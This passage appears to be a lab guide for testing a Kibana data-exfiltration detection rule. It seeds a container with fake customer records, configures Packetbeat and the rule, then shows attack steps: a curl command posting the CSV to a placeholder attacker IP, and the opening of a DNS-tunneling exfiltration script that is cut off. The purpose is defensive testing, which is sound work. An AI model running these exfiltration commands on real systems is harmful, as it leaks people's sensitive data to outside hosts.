 3. Create sample sensitive data files:

```bash
docker exec -it exfil-test bash -c "cat > /tmp/customer_data.csv << 'EOF'
id,name,email,credit_card,ssn
1,John Doe,john.doe@example.com,4111111111111111,123-45-6789
2,Jane Smith,jane.smith@example.com,5555555555554444,987-65-4321
3,Bob Johnson,bob.johnson@example.com,378282246310005,456-78-9012
4,Alice Williams,alice.williams@example.com,6011111111111117,789-01-2345
5,Charlie Brown,charlie.brown@example.com,3530111333300000,234-56-7890
EOF"
```

4. Configure Packetbeat to monitor network traffic:

```bash
# Ensure Packetbeat is configured to monitor all relevant protocols
# Particularly HTTP, DNS, and raw network traffic
```

5. Configure the Data Exfiltration Detection rule in Kibana:
   - Navigate to **Security** > **Detections** > **Manage detection rules**
   - Create a rule with the following settings:
     - Name: `Data Exfiltration Detection`
     - Description: `Detects potential data exfiltration based on unusual outbound traffic patterns`
     - Index pattern: `packetbeat-*`
     - Query: `destination.ip:* AND NOT destination.ip:10.0.0.0/8 AND NOT destination.ip:172.16.0.0/12 AND NOT destination.ip:192.168.0.0/16`
     - Threshold: Sum of `network.bytes_out` > 1000000 grouped by `source.ip` in 5 minutes
     - Schedule: Run every 5 minutes

## 3. Attack Execution Steps

### Method 1: Direct File Transfer via HTTP

1. Create a simple HTTP server to receive the data (on a separate system):

```bash
# On a separate system (attacker machine)
python3 -m http.server 8000
```

2. Exfiltrate data using curl:

```bash
docker exec -it exfil-test bash -c "curl -X POST -d @/tmp/customer_data.csv http://<attacker_ip>:8000"
```

### Method 2: DNS Tunneling

1. Create a Python script to simulate DNS tunneling:

```bash
docker exec -it exfil-test bash -c "cat > /tmp/dns_exfil.py << 'EOF'
#!/usr/bin/env python3
import base64
import subprocess
import time
import random
import string

def chunk_data(data, chunk_size=30):
    return [data[i:i+chunk_size] for i in range(0, len(data), chunk_size)]

def generate_random_subdomain(length=8):
    return ''.join(random.choice(string.ascii_lowercase) for _ in range(length))

def exfiltrate_via_dns(file_path, domain='example.com'):
```